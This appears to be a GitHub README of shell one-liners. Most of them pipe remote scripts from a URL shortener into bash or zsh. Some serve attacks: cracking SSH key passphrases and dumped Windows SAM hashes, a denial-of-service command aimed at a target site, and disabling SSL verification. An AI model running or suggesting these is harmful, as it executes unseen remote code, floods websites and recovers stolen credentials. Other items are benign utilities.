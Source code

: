 # Magic oneliners

This repository is about bash/python/programming language oneliners that can do an incredible amount of work.

## Oneliners

* [Crack a ssh private key](https://raw.githubusercontent.com/4thel00z/oneliners/master/scripts/crack_ssh_password.zsh)

```
# Download via: 
curl  --proto '=https' --tlsv1.2 -L -sSf https://shortly.fun/crackssh | zsh -s <path-to-private-key> <path-to-wordlist> 

# or in case you haven't installed zsh yet or use fish 
curl  --proto '=https' --tlsv1.2 -L -sSf https://shortly.fun/crackssh | bash -s <path-to-private-key> <path-to-wordlist> 
```

* [Setup a cool go project template](https://github.com/4thel00z/d)

```
# Ideally you do this in your ~/go/src/github.com/<your-gihub-username>/ or other smart places
curl  --proto '=https' --tlsv1.2 -L -sSf https://shortly.fun/boilerplate | bash -s <project_name>
```

* [DOS a webpage](http://gendos.site)

```
# What this does, is it downloads https://github.com/rakyll/hey for amd64 linux and shoots against the 'target.com'
curl -L "gendos.site?args=https://target.com%20-n=1000000" | sh
```

* [Upload encrypted stuff to your gist](https://shortly.fun/upload-gist)

First create a github token [here](https://github.com/settings/tokens/new) if you haven't already used `hub login`.

```
curl  --proto '=https' --tlsv1.2 -L -sSf https://shortly.fun/upload-gist | zsh -s <path-to-file> <name-of-gpg-recipient> [optional: <github-token-with-gist-permissions>]
```

* Decrypt those gists again :D

```
curl  --proto '=https' --tlsv1.2 -L -sSf  | base64 -d | gpg --decrypt
```

* [Crack sam_hashes](https://shortly.fun/cracksam)

If you have successfully dumped hashes from the sam database of a Windows target and stored them to a file you can use the following scrip to retrieve the cleartext passwords:

```
# Download via: 
curl  --proto '=https' --tlsv1.2 -L -sSf https://shortly.fun/cracksam | zsh -s <absolute-path-to-hashes> <absolute-path-to-wordlist>

# or in case you haven't installed zsh yet or use fish 
curl  --proto '=https' --tlsv1.2 -L -sSf https://shortly.fun/cracksam | bash -s <absolute-path-to-hashes> <absolute-path-to-wordlist>
```


* [Disable ssl verification](https://shortly.fun/no-ssl-verification)

If you want to disable ssl verification for a software which uses openssl or gnutls as a shared library you can do the following:
```
# Download via: 
curl  --proto '=https' --tlsv1.2 -L -sSf https://shortly.fun/no-ssl-verification | zsh -s <some-command-you-want-to-disable-ssl-verification-for>

# or in case you haven't installed zsh yet or use fish 
curl  --proto '=https' --tlsv1.2 -L -sSf https://shortly.fun/no-ssl-verification | bash -s <some-command-you-want-to-disable-ssl-verification-for>
```


* [Generate a report](https://github.com/4thel00z/reportgen)

In case you are a l33t h4x0r who wants to render the nicest OSCP pentesting report or some boring stuff documentation for your newest JS hipster framework with 666 stars you can use the following command on a markdown that looks like [this](https://raw.githubusercontent.com/4thel00z/reportgen/master/example.md):

```
curl  --proto '=https' --tlsv1.2 -L -sSf  https://shortly.fun/genreport  | zsh -s example.md example.pdf
```

* [Open url in wayback machine (private firefox window)](https://shortly.fun/wayback)

In case you want to check for a url in a private firefox window in the [Wayback machine](https://archive.org/) you can use the following script:

```
curl  --proto '=https' --tlsv1.2 -L -sSf  https://shortly.fun/wayback  | zsh -s https://example.com
```

* Debugging postgres - Find longrunning queries

If you are debugging your postgres instance and have [pgcli](https://github.com/dbcli/pgcli) installed, you can find out which query it is via:
You will have to have `$DB_HOST`, `$DB_USERNAME` and `$DB_NAME` set appropriately.

```
echo "WITH long_running AS (SELECT pid, now() - pg_stat_activity.query_start AS duration, query, state FROM pg_stat_activity WHERE (now() - pg_stat_activity.query_start) > interval '1 minutes' and state = 'active') SELECT * from long_running;"| pgcli -h $DB_HOST -U $DB_USERNAME -d $DB_NAME 
```

## License

This project is licensed under the GPL-3 license.
